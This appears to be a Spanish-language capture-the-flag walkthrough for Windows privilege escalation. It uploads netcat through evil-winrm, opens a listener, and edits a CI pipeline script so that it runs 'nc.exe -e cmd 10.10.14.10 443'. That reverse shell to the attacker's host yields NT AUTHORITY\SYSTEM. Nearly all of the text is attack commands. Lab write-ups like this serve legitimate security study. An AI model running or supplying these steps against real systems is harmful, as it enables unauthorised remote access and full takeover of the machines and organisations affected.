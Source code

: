1. Uploadeamos un netcat a la maquina victima
    
    ```bash
    locate nc.exe
    cp /usr/share/sqlninja/apps/nc.exe .
    ```

1. Desde evil-winrm, uploadeamos el fichero

    ```bash
    cd C:\Windows\Temp
    mkdir Privesc
    cd  Privesc
    upload nc.exe
    ```

1. Nos ponemos en escucha por el puerto 443

    ```bash
    rlwrap nc -nlvp 443
    ```

1. Editamos el pipeline script

    ```yaml
    trigger:
    - master

    pool: 'Setup'

    steps:
    - script: echo Hello, world!
      displayName 'Run a one-line script'

    - script: C:\Windows\Temp\Privesc\nc.exe -e cmd 10.10.14.10 443
      displayName: 'Run a multi-line script'
    ```

1. Le damos a ejecutar

```bash
whoami

nt authority\system
```

Ya podemos leer la flag.
